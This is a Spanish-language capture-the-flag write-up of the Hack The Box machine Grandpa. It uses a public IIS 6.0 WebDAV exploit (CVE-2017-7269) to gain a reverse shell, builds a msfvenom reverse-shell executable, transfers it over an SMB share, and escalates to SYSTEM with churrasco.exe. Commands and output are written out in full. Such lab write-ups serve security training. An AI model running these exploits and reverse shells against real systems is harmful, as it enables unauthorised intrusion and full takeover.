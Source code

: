 ```yaml
---
title: HackTheBox - Grandpa
categories: [Windows]
tags: [HackTheBox]
---
```


<img src="/assets/HTB/Grandpa/grandpa.png">

En este post voy a explicar como resolver la máquina Granny de [Hack The Box](https://app.hackthebox.com/machines/14), en la cual vamos a estar explotando una vulnerabilidad de un ```IIS 6.0``` y para la escalada vamos a hacer uso del exploit ```churrasco.exe```, si exactamene igual a la maquina [Granny](/posts/HackTheBox-Granny/)

## Escaneo de puertos

```
# nmap -p- -sS --min-rate 5000 -sCV -oN nmap -n -Pn 10.10.10.14
Nmap scan report for 10.10.10.14
Host is up (0.23s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-webdav-scan:
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Mon, 12 Dec 2022 15:00:58 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_http-title: Under Construction
| http-methods:
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-ntlm-info:
|   Target_Name: GRANPA
|   NetBIOS_Domain_Name: GRANPA
|   NetBIOS_Computer_Name: GRANPA
|   DNS_Domain_Name: granpa
|   DNS_Computer_Name: granpa
|_  Product_Version: 5.2.3790
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Como vemos, la página tiene el puertos 80 (HTTP) abierto.

# Enumeración
Al ingresar a la página, vemos esto.

<img src="/assets/HTB/Grandpa/grandpa-pagina.png">

Si usamos la herramienta whatweb para recopilar información del servidor web, vemos que se está utilizando ```Microsoft-IIS[6.0]```.

```
$ whatweb http://10.10.10.14/

HTTPServer[Microsoft-IIS/6.0], IP[10.10.10.14], Microsoft-IIS[6.0][Under Construction], MicrosoftOfficeWebServer[5.0_Pub], UncommonHeaders[microsoftofficewebserver], X-Powered-By[ASP.NET]
```

Esta versión del ```IIS``` es vulnerable a ```ejecución de código arbitrario```, para explotarlo vamos a hacer uso de este [exploit](https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell) creado por ```g0rx```, el cual nos mandara directamente una ```reverse shell```.

# Reverse Shell

```
$ curl -s  https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell -o IIS-exploit.py

$ python2 IIS-exploit.py 10.10.10.14 80 [Reverse IP] [Reverse Port]

```
```
$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.14] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
nt authority\network service
```

# Enumeración del sistema
Al hacer un ```whoami /priv```, veremos que tenemos el privilegio ```SeImpersonatePrivilege```, el cual podemos abusar haciendo uso del exploit ```churrasco.exe```, una alternativa al ```JuicyPotato.exe```, usaremos esa alternativa, ya que en algunos escenarios, el exploit JuicyPotato no es compatible con los sistemas más antiguos.

Lo primero que vamos a hacer es descargarnos el exploit ```churrasco.exe``` y crearnos un archivo malicioso haciendo uso de msfvenom el cual se encargue de mandarnos una reverse shell.

```
$ wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=4444 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe

No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

Una vez creados, los transferiremos a la máquina víctima, haciendo uso de la herramienta ```impacket-smbserver```.

```
$ sudo impacket-smbserver smbFolder $(pwd) -smb2support

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Una vez este inicializado el servidor SMB en la máquina local, descargaremos los archivo de la siguiente forma.

```
c:\windows\system32\inetsrv>cd C:\Windows\Temp

C:\WINDOWS\Temp>copy \\10.10.14.3\smbFolder\churrasco.exe churrasco.exe
        1 file(s) copied.

C:\WINDOWS\Temp>copy \\10.10.14.3\smbFolder\shell.exe shell.exe
        1 file(s) copied.

C:\WINDOWS\Temp>dir
 Volume in drive C has no label.
 Volume Serial Number is FDCB-B9EF

 Directory of C:\WINDOWS\Temp

12/12/2022  05:09 PM    <DIR>          .
12/12/2022  05:09 PM    <DIR>          ..
12/12/2022  05:06 PM            31,232 churrasco.exe
12/12/2022  05:06 PM            73,802 shell.exe
02/18/2007  02:00 PM            22,752 UPD55.tmp
12/24/2017  07:19 PM    <DIR>          vmware-SYSTEM
12/12/2022  04:14 AM            22,554 vmware-vmsvc.log
09/16/2021  12:15 PM             5,826 vmware-vmusr.log
12/12/2022  04:17 AM               637 vmware-vmvss.log
               6 File(s)        156,803 bytes
               3 Dir(s)   1,316,003,840 bytes free

C:\WINDOWS\Temp>
```

# Escalada de privilegios

Ahora nos pondremos en escucha por el puerto que le especificamos en el archivo malicioso, y lo ejecutaremos haciendo uso del exploit ```churrasco.exe``` para que nos llegue una reverse shell como ```nt authority\system```.

```
C:\WINDOWS\Temp>churrasco.exe
/churrasco/-->Usage: Churrasco.exe [-d] "command to run"
C:\WINDOWS\Temp>churrasco.exe -d ".\shell.exe"

/churrasco/-->Current User: NETWORK SERVICE
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 672
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 676
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 680
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 688
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

```
$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.14] 1035
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
nt authority\system
```